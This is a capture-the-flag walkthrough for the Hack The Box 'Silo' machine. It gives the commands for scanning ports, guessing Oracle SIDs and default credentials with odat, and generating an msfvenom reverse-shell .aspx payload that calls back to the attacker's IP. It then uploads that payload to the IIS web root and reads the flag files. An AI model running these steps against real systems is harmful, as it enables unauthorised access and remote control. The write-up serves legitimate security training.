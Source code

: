 # [Silo](https://app.hackthebox.com/machines/silo)

```bash
nmap -p- --min-rate 10000 10.10.10.82 -Pn
```

![Alt text](img/image.png)


From here, we identify ports (80,135,139,445,1521,5985,8080,47001), let's do greater nmap scan for this ports.

```bash
nmap -A -sC -sV -p80,135,139,445,1521,5985,8080,47001 10.10.10.82 -Pn 
```

![Alt text](img/image-1.png)


Let's pentest Oracle database (port=1521) via `odat` hacking tool which is used to attack Oracle databases.


Let's find SID of target oracle database.

```bash
odat sidguesser -s 10.10.10.82 -p 1521
```


![Alt text](img/image-3.png)


After finding SID string, we can know that default credentials are used or not for authentication to Oracle database.

For this, I will use below default credentials.

![Alt text](img/image-2.png)

```bash
odat passwordguesser -s 10.10.10.82 -d XE --accounts-files /root/users.txt /root/passwords.txt
```

![Alt text](img/image-4.png)


Now, I try to '**dbmsxslprocessor**' option of `odat` attacking tool to upload my webshell to get reverse shell.

1.First, we need to create malicious `.aspx` file via `msfvenom` command.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1337 -f aspx > dr4ks.aspx
```

![Alt text](img/image-5.png)


2.Now, we need to upload our malicious `dr4ks.aspx` file into machine.
```bash
odat dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "C:\inetpub\wwwroot" "dr4ks.aspx" "/root/dr4ks.aspx" --sysdba
```

![Alt text](img/image-6.png)


Everything is done , if browse this page which my malicious `.aspx` file located here, I can get reverse shell.

```bash
curl http://10.10.10.82/dr4ks.aspx
```
![Alt text](img/image-7.png)


I got reverse shell from port (1337)

![Alt text](img/image-8.png)


user.txt

![Alt text](img/image-9.png)


For both of user.txt and root.txt, we can use  '**externaltable**' feature of `odat` attacking tool.

```bash
odat externaltable -s 10.10.10.82 -d XE -U scott -P tiger --getFile "C:\Users\Administrator\Desktop" "root.txt" "root.txt" --sysdba
```


root.txt

![Alt text](img/image-10.png)